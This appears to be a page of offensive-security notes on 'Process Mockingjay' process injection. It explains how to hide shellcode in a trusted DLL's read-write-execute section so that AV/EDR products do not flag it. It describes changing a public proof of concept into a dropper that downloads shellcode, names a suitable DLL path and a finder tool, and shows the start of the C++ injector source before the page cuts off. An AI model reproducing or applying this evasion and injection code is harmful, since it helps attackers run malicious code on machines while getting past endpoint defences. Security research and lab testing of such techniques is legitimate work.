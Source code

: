 <div style="page-break-after: always;"></div>

<a name="process-injection-using-process-mockinjay"></a>
## Process Injection using Process MockinJay

Official Blog: https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution

The concept revolves around housing our shellcode within a memory area that naturally allows Read-Write-Execute (RWX) permissions in a Dll. This memory region should be situated within a trusted Dll module and the process associated with it, eliminating the necessity for use typical process injection Windows/NT APIs like VirtualAllocEx that are flagged by AV/EDRs.

Two methods exist:
1. Self Injection: Find a vulnerable trusted Dll with RWX permissions to copy our shellcode into and load the Dll and execute shellcode.
2. Remote Injection: Leveraging trusted applications that use a vulnerable trusted Dll with RWX permissions to perform the same functionality as in Self Injection.

Since Remote Injection involves leveraging installed application which could vary on target applications we mainly focus on Self Injection.

To find Dll's with an RWX portion we can use a POC such as: https://github.com/pwnsauc3/RWXfinder


<a name="self-injection"></a>
### Self Injection

POC reference used: `https://github.com/ewby/Mockingjay_POC/tree/main`

We begin by finding Dlls with an RWX portion using RWXfinder on a vm in the MDE testlab, however this results in not many findings.

```
C:\Users\administrator1\Desktop>.\rwxfinder.exe
```

Compiling the POC we find it is detected by default because of the hardcoded shellcode. 

We alter the source as follows and convert it to a C++ project to incorporate dropper functionality to download shellcode dynamically as before.

We also use the default `C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Common7\\IDE\\CommonExtensions\\Microsoft\\TeamFoundation\\Team Explorer\\Git\\usr\\bin\\msys-2.0.dll"` Dll (RWX) as suggested in the blog for shellcode execution.

```
#include <stdio.h>
#include <Windows.h>
#include <psapi.h>
#include <dbghelp.h>
#include <vector>
#include <winternl.h>
#include <winhttp.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment(lib, "Dbghelp.lib")


// calculate the offset to the RWX memory region of a DLL
DWORD_PTR FindRWXOffset(HMODULE hModule)
{
    IMAGE_NT_HEADERS* ntHeader = ImageNtHeader(hModule);
    if (ntHeader != NULL)
    {
        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++)
        {
            // check if section has RWX permissions
```